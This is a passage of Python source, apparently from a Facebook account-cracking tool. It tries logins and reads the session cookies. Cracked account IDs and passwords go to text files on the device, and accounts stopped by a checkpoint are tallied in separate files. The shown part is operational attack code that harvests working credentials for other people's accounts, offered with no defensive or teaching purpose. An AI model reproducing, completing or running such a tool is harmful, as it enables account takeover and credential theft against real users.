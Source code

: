 
                cek_apk(session,coki)

                open('/sdcard/USMAN-OK.txt', 'a').write(cid+' | '+ps+'\n')

                oks.append(cid)

                break

            elif 'checkpoint' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid=coki[24:39]

                BLUE = '\033[1;31m'

                print(f'\033[1;31m\033[1;31m [😔]\nNUMBER : '+uid+'\nPASSWORD   : '+ps+ '\n____________________')

                open('/sdcard/سـاسـڪي🔥.txt', 'a').write(cid+' | '+ps+'\n')

                cps.append(cid)

                break

            elif '/x/checkpoint' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid=coki[7:22]

                BLUE = '\033[1;31m'

                print(f'\r{YELLOW}[Xxxxxx-LOCK] '+cid+' | '+ps+'\033[1;97m')

                open('/sdcard/Xxxxxxx.txt', 'a').write(cid+' | '+ps+'\n')

                twf.append(cid)

            else:

                continue

        loop+=1

        sys.stdout.write(f'\r\33[1;37m[S xS ] [%s]\33[1;97m [OK:%s~CP:%s]'%(loop,len(oks),len(cps))),

        sys.stdout.flush()

        checks(oks,cps,twf)

    except:

        pass

if __name__ == '__main__':

    xyz()


